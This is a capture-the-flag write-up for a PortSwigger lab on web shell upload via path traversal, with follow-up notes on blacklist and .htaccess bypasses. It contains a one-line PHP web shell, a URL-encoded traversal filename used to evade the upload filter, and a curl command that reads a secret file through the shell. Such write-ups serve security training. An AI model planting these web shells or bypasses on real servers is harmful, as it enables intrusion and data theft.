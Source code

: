 # 1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

<figure><img src="/.gitbook/assets/Pasted image 20240720173537.png" alt=""><figcaption><p>calling mal.php from url</p></figcaption></figure>

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

<figure><img src="/.gitbook/assets/Pasted image 20240720173821.png" alt=""><figcaption><p>calling mal.php file from API</p></figcaption></figure>

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

<figure><img src="/.gitbook/assets/uploaded.png" alt=""><figcaption><p>obfuscated mal.php filename bypassed defense mechanisms</p></figcaption></figure>

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
